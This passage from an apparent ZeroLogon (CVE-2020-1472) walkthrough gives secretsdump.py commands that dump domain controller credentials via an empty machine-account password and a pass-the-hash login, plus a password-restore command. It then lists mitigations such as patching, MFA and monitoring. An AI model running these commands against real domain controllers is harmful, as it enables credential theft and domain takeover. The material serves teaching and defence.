 Lets dump out the secrets of the Machine

	secretsdump.py -just-dc {domain}/{dc}\$@{dcip}

	$ => empty value

	secretsdump.py -just-dc DOMAINNAME/COMPUTERNAME\$@{dcip}

:)

<div style="page-break-after: always;"></div>
<br>

Wait, How the hell do I restore this?

Copy the Administrator Hash

	secretsdump.py administrator@{dcip} -hashes adm1nha$h
	
Look for `plain_password_hex` 

Now use the Restore Script

	python3 restorepassword.py DOMAINNAME/COMPUTERNAME@COMPUTERNAME -target-ip {dcip} -hexpass {plain_password_hex}

Great!

<div style="page-break-after: always;"></div>
<br>

## Mitigations

1.  Patch. Apply the relevant [Microsoft patch](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1472) as quickly as possible! 

2.  Proactively close patch gaps. Non-Windows machines are still somewhat unprotected from ZeroLogon. Search your network for non-Windows computer accounts with elevated privileges (e.g. domain replication privileges) as these could be used to launch a successful ZeroLogon attack even on patched domain controllers. (Falcon Zero Trust can provide you with a complete list of privileged accounts.) 

3.  If you cannot patch for any reason:

-   An attacker exploiting the vulnerability effectively gets privileged access to a domain controller. Using this access, the attacker can harvest credentials and then perform one of the following attacks:
    -   Golden Ticket attack
    -   Pass-the-Hash attack
    -   Silver Ticket attack

-   Falcon Zero Trust can prevent these attacks via enforced step-up authentication.

-  To mitigate further damage, ensure you are monitoring your environment against such attacks:

	-   Enable multi-factor authentication (MFA) for all accounts or at least privileged accounts. In that case, even if a privileged account is compromised, the access attempt would still be denied.
	-   Monitor for possible exploitation attempts with the [open-source tool](https://github.com/preempt/ntlm-scanner) released by CrowdStrike (formerly Preempt).

